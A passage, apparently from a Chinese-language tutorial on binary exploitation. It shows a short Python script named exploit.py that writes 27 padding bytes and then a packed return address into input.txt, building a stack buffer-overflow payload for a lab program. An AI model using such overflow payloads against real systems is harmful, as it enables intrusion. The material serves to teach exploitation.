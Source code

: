 ![](img/00260.jpeg)

在新窗口中，编写我们的漏洞：

```
#!/usr/bin/python
from struct import *
buffer = ''
buffer += 'a'*27
buffer += pack("<Q", 0x0040135f)
f = open("input.txt", "w")
f.write(buffer)
```

然后保存为`exploit.py`：

![](img/00261.jpeg)
